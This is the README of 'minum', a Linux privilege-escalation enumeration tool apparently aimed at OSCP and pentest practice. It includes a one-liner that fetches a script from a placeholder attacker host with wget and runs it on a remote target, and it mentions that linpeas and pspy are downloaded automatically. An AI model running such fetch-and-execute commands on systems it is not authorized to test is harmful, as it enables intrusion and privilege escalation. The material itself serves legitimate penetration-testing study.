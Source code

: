 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  

Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```
p.s.  
Pay attention to play `linpeas.sh` and `pspy64` in that folder so we will be able to download it for you automatically :)

On the remote machine:
```
wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:<my_port>/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`

## Suggestions
Have any suggestions? Something is missing? (:grimacing:) You can leave us an issue and we will look into it :smiley:

## Support Us
A wise man once said that 160 cups of coffee equals 1 attempt for the oscp exam.  
Support us and take me a coffee step further towards the opportunity of a lifetime :unicorn:  
  
[![name](https://user-images.githubusercontent.com/117816100/206117004-54c33ba1-918e-43d2-96b4-b71018455a1e.png)](https://www.buymeacoffee.com/nirza)
